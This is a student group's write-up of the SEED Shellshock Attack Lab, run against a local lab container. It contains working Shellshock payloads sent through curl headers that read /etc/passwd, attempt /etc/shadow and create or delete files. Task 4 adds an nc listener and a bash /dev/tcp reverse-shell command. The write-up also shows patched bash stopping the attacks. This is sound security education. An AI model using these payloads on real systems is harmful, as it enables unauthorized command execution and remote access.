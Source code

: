 # SHELLSHOCK ATTACK LAB
## SEED Lab #1

## Identification
- **Group nº3**
    - **José Rodrigues** : 201708806
    - **Paulo Ribeiro** : 201806505
    - **Pedro Ferreira** : 201806506

## Task 1:

- A Shellshock attack happens when commands that are concatenated to the end of function definitions stored in the values of environment variables are unintentionally executed, allowing the attacker to execute arbitrary commands and gain unauthorized access to services.

- Example of one such attack:
```bash 
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
- Observed results: 
    - (In the vulnerable shell, the trailing _echo_ command runs, outputting "vulnerable")

![](https://i.imgur.com/cAU0z4q.png)

## Task 2:

#### Task 2.A:

- By accessing the URL www.seedlab-shellshock.com/cgi-bin/getenv.cgi in a browser, the window presents the environment variables in the current process.
- Using the HTTP Header Live Firefox extension, we manage to see the environment variables that are set by the browser.

- Comparing the results, we can verify that the environment variables that are set by the browsers are the variables prefixed by *HTTP_* which in this case are *Host*, *User-Agent*, *Accept*, *Accept-Language*, *Accept-Encoding*, *Connection* and *Upgrade-Insecure_Requests*.

![](https://i.imgur.com/UA3SnTY.png)

#### Task 2.B:

- Using curl, we can control some of the fields in an HTTP request. Some of these are the following:
    - Using **-A**, we can modify the environment variable **HTTP_USER_AGENT**
    - Using **-e**, we can modify the environment variable **HTTP_REFERER**
    - Using **-H**, we can create new extra headers and set their corresponding values.
        - For example, running the following command will create an extra header called **HTTP_X_FIRST_NAME** and set its value to *Joe*:
```bash
curl -H "X-First-Name: Joe" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```

- Based on this experiment, we can verify that all three options allow us to inject arbitrary data into the environment variables. But the **-H** option would be the most interesting as it enables us to add, replace or remove any number of new environment variables.

## Task 3:

In the following subtasks, we launched some Shellshock attacks, using the three different approaches described in the last task, to achieve the four objectives proposed.

#### Task 3.A:

```bash
curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
 ```
 
![](https://i.imgur.com/PkYChfO.png)

#### Task 3.B:

```bash
curl -e "() { :;}; echo Content_type: text/plain; echo; /bin/id" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
 ```
![](https://i.imgur.com/pjELFZi.png)


#### Task 3.C:

```bash
curl -H "Target: () { :;}; echo Content_type: text/plain; echo; /bin/touch /tmp/hack.txt" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -H "Target: () { :;}; echo Content_type: text/plain; echo; /bin/ls /tmp" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
 ```

![](https://i.imgur.com/WwbFeCZ.png)

#### Task 3.D:

```bash
curl -H "Target: () { :;}; echo Content_type: text/plain; echo; /bin/rm /tmp/hack.txt" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


![](https://i.imgur.com/KNCNzI1.png)


#### Question 1

- We tried to access the file /etc/shadow using the following command, which redirects the writing of the error message to the terminal:

```bash
curl -H "Target: () { :;}; echo Content_type: text/plain; echo; /bin/cat /etc/shadow 2>&1" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

- We verified that an error occurs, accusing that permission was denied.
- After some searching, we concluded that this file can only be accessed using root permissions.
- However, as we can see in task 3.B, our UID is 33, so we're not executing the commands as root, which would have the UID 0.

- **Answer:** No, we are not able to steal the content of the shadow file.

![](https://i.imgur.com/6roS3i3.png)

#### Question 2

- To accomplish this attack, we need to try to fit our attack payload in the URL, as an HTTP GET request, and to that effect, we tried with, and without encoding, and these are a couple of commands we tried (and their encoded counterparts):

```bash
() { :;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd
()%20%7B%20%3A%3B%7D%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20%2Fbin%2Fcat%20%2Fetc%2Fpasswd

() { :;}; /bin/cat /etc/passwd
()%20%7B%20%3A%3B%7D%3B%20%2Fbin%2Fcat%20%2Fetc%2Fpasswd
```

without encode:
![](https://i.imgur.com/G6QaDqN.png)

with '':
![](https://i.imgur.com/yNlxcOu.png)

encoded:
![](https://i.imgur.com/2iMmOFH.png)

- **Answer:** After many attempts, we realized that no, this method cannot be used to launch the Shellshock attack. This happens because we need spaces in the command, which cannot be translated to the URL, and even with encoding, it does not function as intended, as the QUERY_STRING variable takes the encoded value as a raw string.

## Task 4:

- To get a **Reverse Shell** open in the target machine, we have to first, in the attacker machine, open a TCP server that will listen for the connection we will engage in the target machine, that will later transmit the shell inputs and outputs.
- We do that in the following way:
```bash
nc -nv -l 9090
```

- After that, we now have to use the shellshock vulnerability to make the target machine (10.9.0.80) open a new shell that will send its outputs and receive its inputs from the TCP server in the attacker machine (10.9.0.1), and we can accomplish that with the following command:
```bash
curl -A "() { :;}; echo Content_type: text/plain; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

- We ended up successfully opening a Reverse Shell:

![](https://i.imgur.com/ACgEIqL.png)

## Task 5:

- We started by changing the first line of the CGI programs in order to use the patched bash (/bin/bash), without the shellshock vulnerability. To change the CGI files in the container, we run the commands:

```bash
docker cp vul.cgi 53c31041a33c:/usr/lib/cgi-bin
docker cp getenv.cgi 53c31041a33c:/usr/lib/cgi-bin
```

- Now we redo Task 3 to analyze the results. As we can see, none of the attacks worked, since /bin/bash is patched against this vulnerability.

#### Task 5.A:

![](https://i.imgur.com/pLKvfPy.png)

#### Task 5.B:

![](https://i.imgur.com/ol20BtV.png)

#### Task 5.C:

![](https://i.imgur.com/MBg5jqL.png)
![](https://i.imgur.com/MQWyp40.png)

#### Task 5.D:

![](https://i.imgur.com/LzjXi7B.png)
